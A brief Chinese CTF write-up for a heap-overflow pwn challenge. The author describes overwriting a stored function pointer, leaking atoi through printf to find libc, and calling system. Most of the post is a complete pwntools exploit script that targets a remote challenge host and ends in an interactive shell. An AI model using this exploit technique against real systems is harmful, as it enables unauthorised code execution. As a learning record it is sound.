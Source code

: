 还是蛮简单的~但是我看到堆溢出就懵逼，没发现那个结构里面存了一个函数指针可以被覆盖~

总之就是覆盖函数指针----调用printf打印某函数地址继而计算libc加载地址----调用system

脚本跟z老师的几乎一样。。因为自己没思路全问他= =

```
from pwn import *
plt_printf=0x400750
got_atoi=0x602070
libc_atoi=0x39f50
libc_system=0x46640
def add():
	p.sendline('1')
	p.recvuntil(':')
	p.sendline('anything')
	p.recvuntil(':')
	p.sendline('1')
	p.recvuntil('Exit.')
	print 'add done'
def edit(id,s):
	p.sendline('3')
	p.recvuntil(':')
	p.sendline(str(id))
	p.recvuntil(':')
	p.sendline(s)
	p.recvuntil('Exit.')
	print 'edit done'
def encrypt(id):
	p.sendline('2')
	print p.recvuntil(':')
	p.sendline(str(id))
	print p.recvuntil('...')
	print 'encryption done'
#p=process('./encrypt')
p=remote('101.200.187.112','9005')
#gdb.attach(p)
p.recv()
for i in xrange(3):
	add()
edit(1,'%s\x00'+'a'*77+p64(got_atoi))
edit(2,'a'*96+p64(plt_printf))
encrypt(1)
d=p.recvuntil('\x7f')[1:].ljust(8,'\x00')
atoi=u64(d)
print '[+] atoi:'+hex(atoi)
system=atoi-libc_atoi+libc_system
print p.recvuntil('Exit.')
edit(1,'a'*96+p64(system))
edit(0,'/bin/sh\x00')
encrypt(0)
p.interactive()
```
感觉有几点需要注意的
1. 调用函数的时候用它的plt地址，而打印内存地址是用got的
2. 出现玄学bug的话就用recvuntil
3. 这串东西大概是格式化内存地址的标准代码吧，以后还可以用
```
d=p.recvuntil('\x7f')[1:].ljust(8,'\x00')
atoi=u64(d)
print '[+] atoi:'+hex(atoi)
```
感觉难度不高用时有点长啊= =
